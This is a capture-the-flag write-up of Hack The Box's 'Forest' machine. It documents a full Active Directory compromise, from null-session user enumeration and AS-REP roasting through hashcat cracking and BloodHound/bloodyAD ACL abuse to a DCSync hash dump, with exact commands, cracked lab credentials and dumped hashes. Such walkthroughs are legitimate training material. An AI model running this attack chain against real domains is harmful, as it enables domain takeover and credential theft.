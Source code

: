 ```yaml
---
title: Forrest (Easy) - HTB
date: 2024-05-24 12:00:00 +/-TTTT
categories: [Writeups]
image:
    path: /assets/img/forest/thumbnail.png
---
```



Forest is an easy level box, which involves pure Active Directory attacks. The box starts out with enumerating all the users within the domain by using a null rpc session. We can then leverage this user list to find an AS-REP roastable user. By AS-REP roasting this user, we are able obatin their hash, which can then be cracked using HashCat. We leverage this user to run Bloodhound and find out we can add ourselves to a high privilaged group, allowing WriteDACL over the domain.

### Initial Enumeration
Run Nmap to see all open ports

``` bash
sudo nmap -sV -sC 10.129.95.210 -oN scan.nmap -v
```

``` bash
# Nmap 7.94SVN scan initiated Wed Sep  4 21:29:53 2024 as: nmap -sV -sC -oN scan.nmap -v 10.129.95.210
Nmap scan report for 10.129.95.210
Host is up (0.051s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-05 01:36:50Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h26m49s, deviation: 4h02m31s, median: 6m48s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-09-04T18:36:55-07:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-09-05T01:36:56
|_  start_date: 2024-09-05T01:33:34

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 21:30:15 2024 -- 1 IP address (1 host up) scanned in 21.96 seconds
```

See port `88` up as Kerberors, and port `3268` as LDAP, this tells me this is most likely a Windows DC. I started out by checking if null sessions were allowed with SMB.

Running the following proves that a null session is allowed, but unable to list shares

``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --shares

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Foothold via ASREPRoast

#### Creating a Userlist

Due to no access to signifigant access the domain controller through a null session, I decided to use the null session to enumerate users on the machine. If we get a list of valid users I could enumerate users vulnerable to ASREProasting, due to no pre-authentication required 

I first checked it the null session was allowed to enumerate users with NetExec


``` bash
$ nxc smb 10.129.95.210 -u "" -p ""  --users

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\:
SMB         10.129.95.210   445    FOREST           -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.95.210   445    FOREST           Administrator                 2021-08-31 00:51:58 0       Built-in account for administering the computer/domain
SMB         10.129.95.210   445    FOREST           Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.95.210   445    FOREST           krbtgt                        2019-09-18 10:53:23 0       Key Distribution Center Service Account
SMB         10.129.95.210   445    FOREST           DefaultAccount                <never>             0       A user account managed by the system.
<SNIP>
SMB         10.129.95.210   445    FOREST           svc-alfresco                  2024-09-05 01:44:34 0
SMB         10.129.95.210   445    FOREST           andy                          2019-09-22 22:44:16 0
SMB         10.129.95.210   445    FOREST           mark                          2019-09-20 22:57:30 0
SMB         10.129.95.210   445    FOREST           santi                         2019-09-20 23:02:55 0
```

As seen above the anonymous user is allowed to get all domain users. To get a list of these user, I used rpcclient and vim macros.

``` bash
$ rpcclient -U "" -N 10.129.95.210 -c enumdomusers | tee users.txt
```

Now that I have my users list, I ran `GetNPUsers.py`, which looks for users which do not require pre-authenticaiton, the tool also automatically requests and saves a vulnerable user's hash.

#### Cracking svc-alfresco's hash

``` bash
$ impacket-GetNPUsers 'htb.local/' -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
<SNIP>
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Running this, the user `svc-alfresco` does not require pre-authentication. Now that the user's hash is saved, I forwarded to hashcat to crack.

```bash
$ hashcat asrep-hashes.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f38d41c0ae6c393c832$a6452ab4d3fbb82b18066ae24e83100677e8e02846cbd0d8b5d6903bd560dbf313da5ec0ca329729a3454e47276bbaa7f7cb9eaf6daeea8204c52a8429f982c63bdc4083225001e21320b559cd538f1a3b02d629e4987eff70d058d9305cd2b9b4de5b008a356fece2b4477c476cf423c99a28b3eee5ae6eecea86e4c9607d0df1ce877486b98acc82f9a348764e81e1f156593329390b86fe3334dda4b1f26d3f71cf3474fe4302b86c6acc0c2b5fc22d750386baccf483f940a97086132d9b035b857470ecce7183f5d98d0eda4d5d3a28cb88ee16d66f7836efd8295ce3878e04715c0bb5:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:4bb40a38014d2f...5c0bb5
Time.Started.....: Wed Sep  4 22:02:11 2024 (9 secs)
Time.Estimated...: Wed Sep  4 22:02:20 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   447.1 kH/s (0.73ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344385 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4085248/14344385 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s402gercd -> s3r3ndipit
Hardware.Mon.#1..: Util: 70%

Started: Wed Sep  4 22:02:09 2024
Stopped: Wed Sep  4 22:02:22 2024
```


The user's hash is sucessfully cracked and we can now log in as that user

``` bash
$ nxc smb 10.129.95.210 -u "svc-alfresco" -p "s3rvice"

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.95.210   445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```


### Abusing ACLs

#### Running Bloodhound

I decided to run Bloodhound to find any possible relations from our current user

``` bash
$ nxc ldap 10.129.95.210 -u "svc-alfresco" -p "s3rvice" --bloodhound -c all --dns-server 10.129.95.210 --dns-tcp

SMB         10.129.95.210   445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.95.210   389    FOREST           [+] htb.local\svc-alfresco:s3rvice
LDAP        10.129.95.210   389    FOREST           Resolved collection methods: localadmin, acl, objectprops, trusts, group, dcom, psremote, session, rdp, container
LDAP        10.129.95.210   389    FOREST           Done in 00M 17S
LDAP        10.129.95.210   389    FOREST           Compressing output into /home/parallels/.nxc/logs/FOREST_10.129.95.210_2024-09-04_220801_bloodhound.zip
```


Checking this user's transitive object control, I was able to map the following path in Bloodhound.

![bloodhound path](/assets/img/assets/forest/1.png)

Through nested groups, our user is apart of the `Account Operators` AD group, this group allows `GenericAll` rights over the group `EXCHANGE WINDOWS PERMISSIONS`. GenericAll permissions over a group allow us to add a user to that group. Once we have control over `EXCHANGE WINDOWS PERMISSIONS`, we can legerage `WriteDACL` to permit a user DCsync rights over the domain, effectivly compromising the domain through a DCsync attack.

I use `Bloody-AD` to create a new user to be used with this attack, we are allowed to do this because we are in the `Account Operators` group.

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add user "jeff" "password123\!"
[+] jeff created
```

As mentioned earlier, we'll add our new user jeff to `EXCHANGE WINDOWS PERMISSIONS`

``` bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "svc-alfresco" -p "s3rvice" add groupMember "EXCHANGE WINDOWS PERMISSIONS" "jeff"
[+] jeff added to EXCHANGE WINDOWS PERMISSIONS
```
Using the user jeff, we can attempt to add DCSync privilages over the domain


```bash
$ bloodyAD -d htb.local --host 10.129.95.210 -u "jeff" -p "password123\!" add dcsync jeff
[+] jeff is now able to DCSync
```

### Domain Comprimise

We can now run secrets dump, given our new privilages.

``` bash
$ secretsdump.py htb.local/jeff:'password123!'@10.129.95.210

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>
```